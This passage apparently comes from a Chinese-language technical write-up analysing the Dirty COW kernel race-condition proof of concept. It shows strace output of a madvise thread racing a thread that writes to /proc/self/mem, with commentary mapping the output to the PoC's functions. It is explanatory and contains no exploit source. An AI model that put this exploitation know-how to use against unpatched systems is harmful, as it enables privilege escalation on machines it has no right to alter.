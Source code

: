 ```bash
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52727 open("/proc/self/mem", O_RDWR <unfinished ...>
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED) = 0
52727 <... open resumed> )              = 4
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED <unfinished ...>
52727 lseek(4, 140434654248960, SEEK_SET <unfinished ...>
52726 <... madvise resumed> )           = 0
52727 <... lseek resumed> )             = 140434654248960
52726 madvise(0x7fb97dae4000, 100, MADV_DONTNEED <unfinished ...>
52727 write(4, "m00000000000000000", 18 <unfinished ...>
52726 <... madvise resumed> )           = 0
52727 <... write resumed> )             = 18
```

其实你对应一下就发现这个跟 C 代码是非常对应的，52725 代表函数 `main`，52726 代表 `madviseThread`，52727 代表 `procselfmemThread`。
可以看到函数 `madviseThread` 先启动，一执行就有返回结果，然后 `procselfmemThread` 也开始执行了，此时两个函数是并行的，比如 `open` 执行了，被 `madvise` 插一脚，`madvise` 执行完后 `open` 的结果才返回，并不是 `main` 函数里和谐的顺序执行。

再看一眼结尾部分

```bash
52727 lseek(4, 140434654248960, SEEK_SET) = 140434654248960
52727 write(4, "m00000000000000000", 18) = 18
52727 lseek(4, 140434654248960, SEEK_SET) = 140434654248960
52727 write(4, "m00000000000000000", 18) = 18
52727 lseek(4, 140434654248960, SEEK_SET) = 140434654248960
52727 write(4, "m00000000000000000", 18) = 18
52727 lseek(4, 140434654248960, SEEK_SET) = 140434654248960
52727 write(4, "m00000000000000000", 18) = 18
52727 lseek(4, 140434654248960, SEEK_SET) = 140434654248960
52727 write(4, "m00000000000000000", 18) = 18
52727 lseek(4, 140434654248960, SEEK_SET) = 140434654248960
52727 write(4, "m00000000000000000", 18) = 18
52727 write(1, "procselfmem 18000\n\n", 19) = 19
52727 madvise(0x7fb97c2d7000, 8368128, MADV_DONTNEED) = 0
52727 exit(0)                           = ?
52725 <... futex resumed> )             = 0
52727 +++ exited with 0 +++
52725 exit_group(0)                     = ?
52725 +++ exited with 0 +++
```

显然因为函数 `procselfmemThread` 要执行 `lseek` 和 `write`，而 `madviseThread` 只需要执行 `madvise`，所以 `procselfmemThread` 的执行时间会比 `madviseThread` 长很多，到后面很大一部分时间都是 `procselfmemThread` 在自己玩。

现在我们从整体分析一轮 PoC 干了什么：
